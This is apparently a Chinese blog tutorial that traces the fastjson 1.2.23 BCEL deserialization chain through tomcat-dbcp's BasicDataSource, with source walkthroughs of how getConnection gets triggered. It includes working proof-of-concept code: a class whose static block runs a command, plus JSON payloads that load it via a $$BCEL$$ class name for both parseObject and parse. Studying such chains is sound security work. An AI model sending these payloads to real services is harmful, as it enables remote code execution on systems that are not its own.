本篇文章需要你先了解fastjson的反序列化基础和`BCEL`类加载的链，可以看我的这两篇文章：

* [fastjson反序列化基础](./main.md)
* [BCEL类加载反序列化](../../A%20-%20JAVA基础/BCEL/main.md)

fastjson的BCEL链需要一些依赖，首先是`JDK版本小于251`，然后需要引入`tomcat-dbcp`的依赖。

我实验了mvn仓库中的多数`tomcat-dbcp`发现8.x、9.x版本并没有修复这个漏洞。在10.1.0-M4及之后的版本中修复了该漏洞，所以这里任选一个8.x、9.x版本就能复现这个漏洞了。

以当前时间(2025-03-11)为例，我这里选了`9.x`的最新版的包。你可以选这些包及其旧版本包来复现：8.5.100、9.0.102、10.1.0-M2

我这里引入的依赖是`BCEL`的`9.0.102`版本，同时引入了`fastjson`的`1.2.23`版本：

```xml
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-dbcp</artifactId>
    <version>9.0.102</version>
</dependency>

<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.23</version>
</dependency>
```

## 代码分析

你可能会好奇，`BCEL`链也没用到什么`tomcat-dbcp`啊，同时`fastjson`不是靠触发`getter/setter`方法来触发逻辑的嘛，`BCEL`本身也只能创建Class对象才对啊。

其实默认情况下`fastjson`确实无法触发`BCEL`，但是`tomcat-dbcp`包中有一个`BasicDataSource`类把`fastjson`和`BCEL`串联到了一起。同时`JSONSObject`对象的默认处理逻辑又可以用来触发`BasicDataSource`中的方法，最终导致代码执行。让我们来分析一下这个类。

## BasicDataSource

这是两个`setter`方法，分别为`driverClassLoader`、`driverClassName`这两个字段完成赋值操作。



然后在`DriverFactory`的`createDriver`方法中可以传一个`BasicDataSource`类型的参数，然后会判断`driverClassName`、`driverClassLoader`是否为空，如果都不为空就会尝试加载`Class<?>`，如果这里的`ClassLoader`和`driverClassName`都替换成`BCEL`的内容，这时候就能控制`Class<?> driverFromCCL`为恶意类了。



然后下边有一段代码是这么写的。

首先如果前边`driverClassName`和`ClassLoader`都没出错的话，那么这里的`driverFromCCL`肯定不为空，它一定就是我们要执行的那个恶意类，那么此时这段代码又获取了这个类的默认构造方法，同时调用了`newInstance`方法，这就会触发恶意类中的`构造方法`和`static`代码块中的代码了。



然后有一个地方调用了`createDriver`方法，就是这里。同时这里传的`BasicDataSource`还是`this`，也就是自己。



然后有一个地方又调用了`createConnectionFactory`这个方法，也是在`BasicDataSource`类内部。前边的`dataSource`看起来就是一个缓存，如果没有调用过类似获取数据源的方法的话，这个`dataSource`肯定是空的。所以前边的`if`语句肯定是满足的，不需要我们额外控制。



然后还是`BasicDataSource`中，有两个地方都能触发这个方法，分别是`getConnection`和`getLogWriter`。





到这里就结束了，然后就是看`fastjson`中有哪个地方可以触发这些方法了。

## JSONObject

在我的上一篇`fastjson`文章中对`JSONObject`没有提及太多，这是因为在`TemplatesImpl`和`JdbcRowSetImpl`这两条链中确实也用不到`JSONObject`相关的概念，但是`BCEL`这条链就和`JSONObject`息息相关了，所以这里会详细看一下`JSONObject`类。

但是我不会分析关于`JSON.parse`中的内容了，因为这些内容在上一篇文章中我已经完整分析了。

### parseObject

如果调用了`parseObject`方法时，会再调用一个`JSON.toJSON(obj)`方法来把JSON反序列化的对象转化为`JSONObject`对象。



然后在`JSON.toJSON(Object)`中的代码是这么写的：

```java
public abstract class JSON implements JSONStreamAware, JSONAware {  
    // 0.会调用到这个方法
    public static Object toJSON(Object javaObject) {
        return toJSON(javaObject, SerializeConfig.globalInstance);
    }
    // 1.然后调用到这个方法中
    public static Object toJSON(Object javaObject, SerializeConfig config) {
        if (javaObject == null) {
            return null;
        }
        //......
        Class<?> clazz = javaObject.getClass();
        //......
        // 2.获取Class的ObjectSerializer处理器，这里获取到的是ASMSerializer
        ObjectSerializer serializer = config.getObjectWriter(clazz);
        // 3.因为ASMSerializer也是基于JavaBeanSerializer的，所以这里会进入到if中
        if (serializer instanceof JavaBeanSerializer) {
            // 4.这里强转成JavaBeanSerializer
            JavaBeanSerializer javaBeanSerializer = (JavaBeanSerializer) serializer;
            
            JSONObject json = new JSONObject();
            try {
                // 5.这个getFieldValuesMap方法会获取到所有的getter方法并执行
                // 最终导致了getConnection()方法的触发，然后代码就被执行了
                Map<String, Object> values = javaBeanSerializer.getFieldValuesMap(javaObject);
                for (Map.Entry<String, Object> entry : values.entrySet()) {
                    json.put(entry.getKey(), toJSON(entry.getValue()));
                }
            } catch (Exception e) {
                throw new JSONException("toJSON error", e);
            }
            return json;
        }
        //......
    }
}
```

让我们来回忆一下这段代码，也就是`config.getObjectWriter(clazz)`这个方法。

```java
public ObjectSerializer getObjectWriter(Class<?> clazz) {
    return getObjectWriter(clazz, true);
}

private ObjectSerializer getObjectWriter(Class<?> clazz, boolean create) {
	ObjectSerializer writer = serializers.get(clazz);
    //......
	put(clazz, createJavaBeanSerializer(clazz));
    //......
}
// 最终会调用到这个方法中
private final ObjectSerializer createJavaBeanSerializer(Class<?> clazz) {
    // 这个方法是一个关键，它获取了Class中的字段、方法、接口等等很多信息
    SerializeBeanInfo beanInfo = TypeUtils.buildBeanInfo(clazz, null, propertyNamingStrategy);
    if (beanInfo.fields.length == 0 && Iterable.class.isAssignableFrom(clazz)) {
        return MiscCodec.instance;
    }
    // 构造ASMSerializer
    return createJavaBeanSerializer(beanInfo);
}
```



具体的代码如下，其实就是递归查询类及父类中所有的字段将其put到`Map<String, Field>`中。



再往下还调用了一个方法，就是这个`TypeUtils.computeGetters`用来构建所有的`Getter`方法。



关键代码如下：

```java
public static List<FieldInfo> computeGetters(Class<?> clazz, //
                                             JSONType jsonType, //
                                             Map<String, String> aliasMap, //
                                             Map<String, Field> fieldCacheMap, //
                                             boolean sorted, //
                                             PropertyNamingStrategy propertyNamingStrategy //
) {
    Map<String, FieldInfo> fieldInfoMap = new LinkedHashMap<String, FieldInfo>();

    for (Method method : clazz.getMethods()) {
        String methodName = method.getName();
        // 0.获取所有以get开头的方法
        if (methodName.startsWith("get")) {
        	//......
            if (compatibleWithJavaBean) {
                propertyName = decapitalize(methodName.substring(3));
            } else {
                // 1.会进入到这个逻辑中，比如getConnection()方法，propertyName会变成connection
                propertyName = Character.toLowerCase(methodName.charAt(3)) + methodName.substring(4);
            }
            propertyName = getPropertyNameByCompatibleFieldName(fieldCacheMap, methodName,  propertyName,3); 
            
            //......
            // 2. 如果是connection这种的，其实是没有对应的字段的，所以得到的结果是 Field==null
            Field field = ParserConfig.getFieldFromCache(propertyName, fieldCacheMap);

            if (field == null && propertyName.length() > 1) {
                char ch = propertyName.charAt(1);
                // 3.如果是connection这种的，也不会进入到这个if中，就跳出了
                if (ch >= 'A' && ch <= 'Z') {
                    String javaBeanCompatiblePropertyName = decapitalize(methodName.substring(3));
                    field = ParserConfig.getFieldFromCache(javaBeanCompatiblePropertyName, fieldCacheMap);
                }
            }
            //......
            // 4.最后把method=getConnection()、propertyName=connection等信息都封装成fieldInfo
            FieldInfo fieldInfo = new FieldInfo(propertyName, method, field, clazz, null, ordinal, serialzeFeatures, parserFeatures,annotation, fieldAnnotation, label);
            // 5.放到fieldInfoMap中	
        fieldInfoMap.put(propertyName, fieldInfo);
        }
        //......
    }
    //......
    // 最终会把这些个FieldInfo封装成一个List<FieldInfo>返回
    return fieldInfoList;
}
```

然后再回到上边的代码，这里就执行了`new SerializeBeanInfo`然后把一些字段相关的`JavaBean`信息封装了一下。

来到`createJavaBeanSerializer(SerializeBeanInfo beanInfo)`中，这里会调用到`createASMSerializer(beanInfo)`中。



然后就会来到`createJavaBeanSerializer(SeriablizeBeanInfo beanInfo)`方法中。



然后这里有一个关键代码，就是让生成的`ASMSerializer`继承`JavaBeanSerializer`。



然后往下看就是通过`fastjson`中自定义的一个`ClassLoader`来把`Serializer`加载进来。



这里获取的`getConstructor`其实会获取到`JavaBeanSerializer`的构造方法，也就是这个：



这里的两个字段的定义是这样的，其实就是把一些`getter`方法啥的存起来了。



上边的逻辑就是`JSON.toJSON`方法中的`config.getObjectWriter(clazz);`的重要代码。其实可以发现这个代码获取到的`ObjectSerializer`中就有了很多Class中的信息，比如`字段啊`、`getter啊`什么的。然后`JSON.toJSON`其实就是要去调用这些`getter方法`来获取数据、渲染数据的。

下边的这段代码大概意思就是说，我通过`JavaBeanSerializer`获取到`javaObject(Class)`中的一些字段信息



然后看一下`getFieldValuesMap`中是咋写的：



这个`sortedGetters`中存放的就是那一堆`FieldSerializer`，看一看这个`getPropertyValue`方法中都干了啥事儿。

```java
public class FieldSerializer implements Comparable<FieldSerializer> {
    public final FieldInfo        fieldInfo;
    // 0.调用到了这个方法
    public Object getPropertyValue(Object object) throws InvocationTargetException, IllegalAccessException {
        // 0.调用到了FieldInfo中的get方法
        return fieldInfo.get(object);
    }
}
// 1.这是FieldInfo对象
public class FieldInfo implements Comparable<FieldInfo> {
    // 2.哎嘿，get调用的时候就直接调用了method
    // 3.还记得吗，这个method就包含了那个getConnection()方法
    public Object get(Object javaObject) throws IllegalAccessException, InvocationTargetException {
        if (method != null) {
            Object value = method.invoke(javaObject, new Object[0]);
            return value;
        }

        return field.get(javaObject);
    }
}
```

哎嘿哎嘿，这就能调用到`getConnection()`方法了。看完了这么多代码终于把`代码触发逻辑`的底层逻辑搞明白了。

### POC(parseObject)

其中EvilClass如下：

```java
package fastjson_labs.chain;

import java.io.IOException;
public class EvilClass {
    static {
        try {
            Runtime.getRuntime().exec("cmd /c start");
        } catch (IOException ignore) { }
    }
}
```

然后主代码中是这样的：

```java
package fastjson_labs.chain;

import com.alibaba.fastjson.JSON;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;

public class BCELTest {
    public static void main(String[] args) throws Exception {
        JavaClass cls = Repository.lookupClass(EvilClass.class);
        String code = Utility.encode(cls.getBytes(), true);//转换为字节码并编码为bcel字节码
        System.out.println(code);
        String payload =
            "{\n" +
            "    \"@type\": \"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\n" +
            "    \"driverClassLoader\": {\n" +
            "        \"@type\": \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n" +
            "    },\n" +
            "    \"driverClassName\": \"$$BCEL$$" + code + "\"\n" +
            "}\n";
        JSON.parseObject(payload);
    }
}
```

运行一下，看看实力。



哎哎哎，你以为结束了吗？你知道这个链还能在`JSON.parse`方法中也能触发吗？

### POC(parse)

这里就先给POC了，可以一边看我的代码分析，一边调试。感觉我分析的也不是很好，`ASMSerializer`中的代码我也看的懵懵的。

首先`EvilClass`中的代码是一样的：

```java
package fastjson_labs.chain;

import java.io.IOException;
public class EvilClass {
    static {
        try {
            Runtime.getRuntime().exec("cmd /c start");
        } catch (IOException ignore) { }
    }
}
```

然后是主代码部分：

```java
package fastjson_labs.chain;

import com.alibaba.fastjson.JSON;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;

public class BCELTest {
    public static void main(String[] args) throws Exception {
        JavaClass cls = Repository.lookupClass(EvilClass.class);
        String code = Utility.encode(cls.getBytes(), true);//转换为字节码并编码为bcel字节码
        System.out.println(code);
        String payload = 
        		"{\n" +
                "    {\n" +
                "        \"aaa\": {\n" +
                "                \"@type\": \"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\n" +
                "                \"driverClassLoader\": {\n" +
                "                    \"@type\": \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n" +
                "                },\n" +
                "                \"driverClassName\": \"$$BCEL$$"+ code+ "\"\n" +
                "        }\n" +
                "    }: \"bbb\"\n" +
                "}";
        JSON.parseObject(payload);
    }
}
```

这里的JSON有两种写法：

```java
// 这种是简写写法
{
    {
        "aaa": {
                "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$XXXXXXXX......"
        }
    }: "bbb"
}

// 这种是非简写写法
{
    "@type": "com.alibaba.fastjson.JSONObject",
    {
        "aaa": {
                "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$XXXXXXXX......"
        }
    }: "bbb"
}
```

`run`一下看看效果：



### parse

哎，不对啊，按照原来的逻辑：`fastjson`中的`parse`正常不是靠触发`getter/setter`方法来触发`RCE`的嘛。但是`getConnection`不是一个正常的`getter`方法啊，他没有对应的字段，所以也不可能会调用到`getConnection()`方法啊。

是的，默认情况下是不可能触发的，但是如果序列化的这个对象就是一个`JSONObject`呢？

根据前边的经验，我们看一下`DefaultJSONParser.parse`这个方法。



还是非常熟悉的流程，首先先解析前边的字符是不是`LBRACE`，其实就是`{`，这时候会先默认这个对象是`JSONObject`。



进入到`parseObject`方法中，然后下边有一个重点代码：



然后进入到`parse`方法中，其实这就是当前方法的递归方法，解析到了下一层`JSON`的`{`，点进去看看。又是刚进来时的那一套

```java
public class DefaultJSONParser implements Closeable {
    // 0.继续跳转到当前方法，这个方法其实就是递归的起始方法
    public Object parse() {
        return parse(null);
    }
	// 1.执行到这个方法中。
    public Object parse(Object fieldName) {
        final JSONLexer lexer = this.lexer;
        switch (lexer.token()) {
            case SET:
                lexer.nextToken();
                HashSet<Object> set = new HashSet<Object>();
                parseArray(set, fieldName);
                return set;
            case TREE_SET:
                lexer.nextToken();
                TreeSet<Object> treeSet = new TreeSet<Object>();
                parseArray(treeSet, fieldName);
                return treeSet;
            case LBRACKET:
                JSONArray array = new JSONArray();
                parseArray(array, fieldName);
                if (lexer.isEnabled(Feature.UseObjectArray)) {
                    return array.toArray();
                }
                return array;
            case LBRACE:
                // 解析到`{`这个符号，然后还是默认把剩下的object当成是JSONObject
                JSONObject object = new JSONObject(lexer.isEnabled(Feature.OrderedField));
                return parseObject(object, fieldName);
            //......
        }
    }
    // 这里就又回到上边的步骤了
    public final Object parseObject(final Map object, Object fieldName) {
    	final JSONLexer lexer = this.lexer;
        //......
        // 解析到这里是{，然后再次调用parse递归解析
        if (ch == '{' || ch == '[') {
            // 这里的nextToken就是跳过当前{，接着往下解析的意思
            lexer.nextToken();
            // 解析递归解析
            key = parse();
            isObjectKey = true;
        }
    }
        
}
```

发现了没，如果`{}`中不指定`@type`的话，其实就是把里边的内容都当成是`JSONObject`来处理了，然后看这里的代码：



首先`object.getClass==JSONObject.class`这个条件是肯定满足的，那这里就会调用key的`toString`方法，然后我们看一下`JSONObject`中的`toString`是啥玩意儿。



我大概看了一下`ASMSerializerFactory.createJavaBeanSerializer`方法中的内容，真的有点复杂了，我觉得站在巨人的肩膀上就可以了（笑哭）。只需要知道在`ASMSerializer.write`中会调用到很多的`getXXXXXXX`方法就行了。

## 总结

没有总结......重点全在调试过程